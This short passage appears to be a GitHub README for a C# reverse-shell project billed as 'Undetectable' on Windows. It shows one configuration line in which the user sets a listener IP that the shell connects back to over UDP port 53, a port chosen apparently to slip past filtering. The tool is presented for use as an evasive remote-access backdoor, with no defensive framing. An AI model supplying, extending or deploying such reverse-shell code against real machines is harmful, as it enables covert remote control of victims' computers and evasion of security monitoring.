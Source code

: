 # reverse-shell-csharp
Undetectable Reverse Shell with C# by Windows!
<br>
# Change your listener IP here :
<pre>udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!
